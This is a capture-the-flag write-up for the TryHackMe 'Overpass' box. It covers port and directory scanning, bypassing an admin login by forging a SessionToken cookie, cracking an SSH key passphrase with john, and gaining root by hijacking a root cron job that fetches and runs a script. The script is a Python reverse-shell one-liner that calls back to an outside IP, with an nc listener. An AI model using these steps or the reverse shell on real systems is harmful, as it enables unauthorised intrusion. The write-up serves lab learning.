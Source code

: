# 'Overpass' box writeup
## Overpass is a CTF box written by NinjaJc01 and available on the [TryHackMe](https://tryhackme.com/) platform.
## Read about [Broken Authentication](https://www.youtube.com/watch?v=mruO75ONWy8), [OWASP A2](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)
# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **Let's start with a nmap scan for ports**

``nmap -sV -sC -oN scan1 10.10.107.5``

+ **We can clearly see 2 ports open, ssh and a http, configured on default ports**

# ![1](images/nmap_scan_ov_1.jpg?raw=true "nmap_scan")

+ **Visiting the http web-site, we are welcomed by a page which contains info about a specific password-manager app built by some developers. We also see a download link button**

# ![2](images/visited.jpg?raw=true "visit")

**Accessing the download page, we can look through the Source code of the password-manager app. It looks like it's written in go language which encrypt passwords with the ROT47 algorithm**

+ **Let's do a gobuster scan of the web site**

``gobuster dir -u http://10.10.107.5/ -w /usr/share/wordlists/dirb/big.txt``

# ![3](images/admin.jpg?raw=true "admin")

+ **We can spot an admin page and accessing it, we can see an administrator login area. I tried, unsuccessfully, a SQL injection and then moved on the 2nd OWASP vuln. Let's look into the source code of the page and into some js code**

# ![4](images/scripts.jpg?raw=true "scripts")

**We can clearly see a login.js script so let's look into the source code. The login function seems to be a way to go**

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```

+ **The credentials of the login page are sent to a endpoint inside some DB of the box and a session token is used. It seems like the session token is set with the statusOrCookie parameter. If we change the SessionToken value, maybe we can bypass the login. Let's create the cookie with the name of *SessionToken* and any value you want inside it**

# ![5](images/session.jpg?raw=true "sess")

## User escalation

**Now, trying to refresh the page we can observe we bypassed the login auth and a RSA private key of some guy named James is on our screen. Let's save it in some txt file and use it to connect to ssh**

# ![6](images/RSA.jpg?raw=true "rsa")

``chmod 600 id_rsa``

``ssh -i id_rsa james@10.10.107.5``

+ **Trying to connect to ssh, a key is required for our file. Let's use ssh2john to bruteforce our way in: i'm gonna use ssh2john to get our first hash then crack it with john using the rockyou.txt wordlist**

``python ssh2john.py id_rsa > key_hash``

``sudo john key_hash -wordlist=/usr/share/wordlists/rockyou.txt``

# ![7](images/johned.jpg?raw=true "johnny")

**Using our password for the ssh we are in! There's two files into user's home directory: one of them is our user's flag and the other seems to be an update of their encryption app**

# ![8](images/userflag.jpg?raw=true "userfl")

## Root escalation

+ **According the message inside the todo.txt file, we can see that james is using the same app to encrypt his password. Listing the hidden files inside his directory we can see another file named** *.overpass* **It seems to be james password so we're gonna use it, but first don't forget to decrypt it, because it's encrypted with ROT47, as they said in the beginning page**

**Running sudo -l command, we cannot se any allowed cmds for james user**

# ![9](images/noturn.jpg?raw=true "noturn")

+ **Let's continue and look into the /etc/crontab file**

``cat /etc/crontab``

# ![10](images/croned.jpg?raw=true "crontab")

+ **We can see a curl command, executed by root, which runs every minute and transfer the data from the *buildscript.sh*, the building script for their encrypting app, into terminal, then executed by bash. This script is taken from the machine local web-site, and the domain used is overpass.thm. If we look into the /etc/hosts file we can see the overpass.thm dns belongs to the local ip of the machine**

# ![11](images/hostsetc.png?raw=true "hostsetc")

+ **What if we can run our own script on this machine? If we modify the overpass.thm domain into our local machine domain, we can host locally a python server and upload maybe a python script which get us a reverse shell. The respective script is executed by root so we're gonna get a root shell**

# ![12](images/modify.jpg?raw=true "modify")

**Next step is to create a similar path with the /etc/crontab curl get request from the host - */downloads/src/buildscript.sh*. Let's do this into our local machine and we're gonna host the server into our home directory**

``mkdir downloads``

``mkdir src``

**Now, let's create the *buildscript.sh***

``python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

# ![13](images/pythoned.jpg?raw=true "pyth")

+ **The last step is to start our server from the home directory (on the 80 port) and then start a listener with nc**

``sudo python -m SimpleHTTPServer 80``

``nc -lvnp 1234``

# ![14](images/root_flagos.jpg?raw=true "flagos")

**And we are root! It was a nice box with a very important vulnerability based on the Broken Authentication and some exploiting crontab service**

